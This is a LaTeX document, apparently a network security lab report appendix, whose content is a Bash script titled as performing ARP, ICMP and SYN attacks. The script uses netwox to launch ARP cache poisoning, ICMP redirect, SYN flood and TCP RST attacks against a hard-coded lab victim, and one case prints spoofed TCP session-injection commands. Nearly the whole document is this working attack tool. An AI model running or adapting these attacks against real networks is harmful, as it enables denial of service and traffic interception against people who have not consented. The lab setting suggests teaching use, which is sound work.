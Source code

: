 \documentclass[12pt, a4paper, pdflatex]{article}
\begin{document}
\vfill



\newpage
\begin{appendices}



\section{Shell script for performing attack\label{script1}}

\lstset{
	captionpos=b,
	frame=single,
	language=Bash,
	breaklines=true,
	caption="Script for performing ARP ICMP and SYN attacks",
	label=parta:script
}
\begin{lstlisting}

#!/bin/bash
sudo -v

echo "Type 1 for ARP; 2 for ICMP; 3 for SYNflood; 4 for RST"
read answer

VICTIM_IP='10.0.2.4'
VICTIM_MAC='08:00:27:a6:eb:87'

ATTACKER_IP='10.0.2.6'
GATEWAY='10.0.2.1'
ATTACKER_MAC='08:00:27:ee:0d:0f'

PORT=23
INT='eth7'

ATT=netwox

# Netwox tool numbers
ARP_TOOL=33
SYN_TOOL=76
ICMP_TOOL=86
RST_TOOL=78

echo "Victim ip is " $VICTIM_IP
echo "Victim mac is " $VICTIM_MAC
echo "Gateway is" $GATEWAY
echo "Attacker IP is" $ATTACKER_IP
echo "Attacker MAC is" $ATTACKER_MAC

case $answer in
5)

echo '40 --ip4-dontfrag --ip4-offsetfrag 0 --ip4-ttl 64 --ip4-src 10.0.2.5 --ip4-dst 10.0.2.4 --ip4-opt "" --tcp-src 51296 --tcp-dst 23 --tcp-seqnum 906520802 --tcp-acknum 937587335 --tcp-ack --tcp-psh --tcp-window 6912 --tcp-opt "" --tcp-data "7077640d00" --spoofip "best"'

echo 'netwox 40 --ip4-dontfrag --ip4-offsetfrag 0 --ip4-ttl 64 --ip4-src 10.0.2.5 --ip4-dst 10.0.2.4 --ip4-opt "" --tcp-src 51296 --tcp-dst 23 --tcp-seqnum 906520807 --tcp-acknum 937587340 --tcp-ack --tcp-psh --tcp-window 6912 --tcp-opt "" --spoofip "best"'


;;
4)
echo 'sudo' $ATT $RST_TOOL '-d' $INT '-i' $VICTIM_IP
sudo $ATT $RST_TOOL -d $INT -i $VICTIM_IP
;;
3)
echo 'sudo' $ATT $SYN_TOOL '-i' $VICTIM_IP '-p' $PORT
echo 'SYN Flood on machine at address' $VICTIM_IP 'on port' $PORT
sudo $ATT $SYN_TOOL -i $VICTIM_IP -p $PORT
;;

2)
echo 'IMCP redirection attack:'
echo 'sudo' $ATT $ICMP_TOOL '-d' $INT '-g' $ATTACKER_IP '-c' 0 '-i' $VICTIM_IP
sudo $ATT $ICMP_TOOL -d $INT -g $ATTACKER_IP -c 5 -i $VICTIM_IP 
;;
1)
sudo $ATT $ARP_TOOL -d $INT -b $VICTIM_MAC -g $GATEWAY -h $VICTIM_MAC -i $ATTACKER_IP
;;
*)
echo "Unknown option"
esac


\end{lstlisting}
\end{appendices}
\end{document}
